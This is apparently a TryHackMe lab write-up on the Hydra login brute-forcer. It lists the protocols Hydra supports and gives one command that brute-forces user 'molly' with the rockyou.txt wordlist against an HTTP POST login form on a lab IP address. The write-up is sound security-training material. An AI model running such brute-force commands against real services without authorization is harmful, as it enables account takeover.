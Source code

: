 ```yaml
---
description: https://tryhackme.com/room/hydra
---
```


# Hydra

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”





{% code overflow="wrap" %}
```bash
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.19.138 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

# Super User DO Hydra the user "molly" if any of the rockyou.txt passwwords match. the login page on IP 10.10.19.138/login. 
```
{% endcode %}
